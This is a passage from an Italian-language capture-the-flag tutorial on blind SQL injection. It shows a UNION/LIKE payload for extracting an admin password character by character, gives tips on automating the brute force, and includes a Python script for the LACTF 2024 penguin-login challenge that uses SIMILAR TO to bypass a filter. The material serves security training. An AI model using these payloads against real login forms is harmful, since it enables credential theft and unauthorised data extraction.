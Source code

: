 `Christian_C' UNION SELECT 1 FROM users WHERE username='admin' AND password LIKE 'a%' -- `. Se la prima lettera della password dell'admin è `a`, verremo loggati come `Christian_C`. Assicuratevi che questo abbia senso nella vostra testa.

Automatizzando il processo, è possibile effettuare tutti i tentativi possibili e riuscire dopo qualche centinaio o migliaio di query ad ottenere l'intera password.

#### Consigli
##### Bruteforza con criterio
- Non provate ad injectare tutti i possibili 128 caratteri ASCII, o quantomeno fate in modo di provare come prima cosa i caratteri dell'alfabeto, i numeri e i simboli più comuni.
##### Se hai dei limiti temporali, fai meno richieste
- La velocità delle infrastrutture o i limiti di richieste al minuto possono rendere il processo molto lento. Molti DBMS permettono però di eseguire alcuni tipi di query che danno modo di scrivere dei programmi di exfiltration simili ad una ricerca binaria. In questi casi è estramente comoda la [string comparison](https://stackoverflow.com/a/26080240) di SQL.
##### Multitasking
- L'implementazione di una soluzione simile a quella appena presentata può risultare più difficile del previsto per mille motivi, tra cui la fretta e la pressione. Mentre provi ad ottimizzare la soluzione, esegui prima quella stupida, in modo da avere sempre un piano B e esfiltrare parte dell'informazione in anticipo.
##### Try-Catch e gestione degli errori
- Durante le gare possono andare storte mille cose nell'infrastruttura. Può essere che un carattere in particolare non sia recuperabile, o che le richieste ogni tanto si "inceppino" andando in time-out. I try-catch, `try-except` in Python, permettono al payload di continuare l'attacco anche in caso di errore, e premendo `CTRL+C` è possibile passare al tentativo successivo (mi è stato utile in una challenge della [HSCTF 2023](https://theromanxpl0.it/ctf_hsctf2023/2023/06/12/flagshop.html)). In generale, mettete delle pezze se necessario: *nessuno giudicherà il vostro codice finchè flagga*.

#### Esempio challenge: penguin-login LACTF 2024
In questa challenge, erano stati filtrati i commenti, i percento, e la keyword `LIKE`. PostgreSQL ha un comando molto simile al *blacklistato* `LIKE`, ovvero `SIMILAR TO`. Il primo script trova il numero di caratteri che compongono la flag, il secondo la esfiltra.
`findnum.py`
```py
from requests import *
from bs4 import BeautifulSoup

URL = "https://penguin.chall.lac.tf/"
s = Session()
payloadStart = "' OR name SIMILAR TO 'lactf{"
payloadEnd = ""
i = 0

while True:
    payload = payloadStart + payloadEnd + "}"
    r = s.post(URL + "submit", data={"username": payload})
    soup = BeautifulSoup(r.text, "html.parser")
    if "We found a penguin" in soup.get_text():
        print("worked: ", payload)
        break
    else:
        payloadEnd += "_"
        print("failed: ", payload)
```
